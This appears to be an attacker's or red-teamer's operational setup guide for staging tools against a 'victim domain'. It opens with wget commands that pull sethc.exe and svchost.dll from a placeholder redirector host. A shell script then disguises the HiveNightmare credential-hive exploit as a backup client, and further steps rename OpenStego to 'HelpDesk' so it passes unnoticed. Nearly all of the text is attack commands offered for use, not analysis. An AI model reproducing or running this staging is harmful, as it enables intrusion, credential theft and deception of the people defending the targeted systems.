 cd "/home/kali/Desktop/tools/Service Pack"
wget http://<DENMARK REDIR>:/sethc.exe

wget http://<DENMARK REDIR>/svchost.dll

Create a script to set up our environment:

cd "/home/kali/Desktop/tools" ; nano setup.sh ; chmod +x setup.sh ; ./setup.sh

Copy and paste below into the script:

#!/bin/bash
cd ~/Desktop/tools
rm -rf yankM_Ransomware
rm -rf pythonInstaller
mv PEASS-ng ..

mkdir "Service Pack" # create a folder for all files and tools to be dropped within the environments
cd "Service Pack" 
mkdir "Wallpaper Engine" # DOWNLOAD THE WALLPAPER IMAGES THAT YOU DROP INTO THE ENVIRONMENT HERE

mkdir "/home/kali/Desktop/tools/Service Pack/HelpDesk Service Pack" # place all tools that will be used in the victim domain here
cd "/home/kali/Desktop/tools/Service Pack/HelpDesk Service Pack"
cp "/home/kali/Desktop/tools/jre-8u451-windows-i586.exe" ./jre-8u451-windows-i586.exe
cp "/home/kali/Desktop/tools/HiveNightmare-master/Release/HiveNightmare.exe" ./Back-up-Client_v8.7.66.exe
cp "/home/kali/Desktop/tools/OpenSSH-Win64-v9.8.1.0.msi" ./OpenSSH.msi
cp "/home/kali/Desktop/tools/zips/SysinternalsSuite.zip" ./SysinternalsSuite.zip
cp -r "/home/kali/Desktop/tools/openstego-0.8.6" "./HelpDesk"
cp "/home/kali/Desktop/tools/svchost.dll" .
cp "/home/kali/Desktop/tools/sethc.exe" .
cd "HelpDesk"
rm LICENSE openstego.sh README
mv openstego.bat HelpDesk.bat ; mv openstego.ico HelpDesk.ico
mv "./lib/openstego.jar" "./lib/HelpDesk.jar"

OpenStego.bat configuration change

To obfuscate the OpenStego.jar, we'll need to change some of the .bat file that runs the program.

cd "/home/kali/Desktop/tools/Service Pack/HelpDesk Service Pack/HelpDesk"
mousepad HelpDesk.bat

Change the following lines:

# change the allocated memory space
#FROM: 
set JAVA_OPTS=-Xmx1024m
#TO: 
set JAVA_OPTS=-Xmx6g

# search for, and change anything that has the following (it happens 2x in the files):
#FROM:
openstego.jar
#TO:
HelpDesk.jar
